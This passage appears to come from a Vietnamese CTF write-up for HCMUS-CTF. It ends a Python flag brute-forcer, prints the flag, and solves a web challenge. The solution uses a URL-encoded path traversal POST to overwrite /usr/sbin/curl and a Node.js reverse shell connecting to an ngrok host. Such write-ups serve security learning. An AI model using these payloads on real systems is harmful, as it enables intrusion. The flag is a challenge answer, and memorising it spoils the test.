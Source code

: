 ```python=0
    print(f"[*] Brute-forcing flag, current prefix: {flag}")

    while True:
        for c in CHARS:
            print(f"[*] Trying: '{c}' with pattern: '{flag + esc(c)}'")
            if try_char(flag, c):
                flag += c
                print(f"[+] Match found: '{c}' --> {flag}")
                reset()
                if c == '}':
                    print("\n" + "="*30)
                    print(f"[+] FLAG FOUND: {flag}")
                    print("="*30)
                    return
                break
        else:
            print("[!] No character matched. Exiting.")
            break


if __name__ == "__main__":
    brute()

```
FLAG: `HCMUS-CTF{D1d_y0u_u53_B1n4ry_s34rcH?:v}`

## Web/MALD - Web/BALD
Ở bài này mình sẽ dùng Path Traversal kết hợp Remote Code Execution (RCE), sau khi đọc đoạn code này ở admin.js:
```python=1
  fs.writeFileSync(file_path, content);
  res.redirect(`/admin/archive/${filename}`);
});
```
Ta có khai thác điểm yếu trong xử lý URL và command injection. 

1. Path Traversal (Directory Traversal)
`POST /admin/archive/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%75%73%72%2f%73%62%69%6e%2f%63%75%72%6c HTTP/1.1`

- Mã hóa URL: %2e%2e%2f = ../, %75%73%72 = usr, %73%62%69%6e = sbin, %63%75%72%6c = curl
- Đường dẫn thực tế: `../../../../../../../usr/sbin/curl`
- Mục đích: Vượt qua các thư mục để truy cập vào file thực thi curl trong hệ thống (thường chỉ admin mới được dùng).

2. Remote Code Execution (RCE)
`content=node+-e+'var+net+%3d+require("net"),+sh+%3d+require("child_process").exec("/bin/bash")%3b+var+client+%3d+new+net.Socket()%3b+client.connect(13902,+"0.tcp.ap.ngrok.io",+function(){client.pipe(sh.stdin)%3b+sh.stdout.pipe(client)%3b+sh.stderr.pipe(client)%3b})%3b'`

>Giải mã:
```javascript=1
node -e 'var net = require("net"), sh = require("child_process").exec("/bin/bash"); 
var client = new net.Socket(); 
client.connect(13902, "0.tcp.ap.ngrok.io", function(){
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
});'
```
Cơ chế tấn công:
- Tạo reverse shell sử dụng /bin/bash
- Kết nối đến server tấn công qua Ngrok (0.tcp.ap.ngrok.io:13902)
- Chuyển hướng luồng nhập/xuất/lỗi của shell qua socket
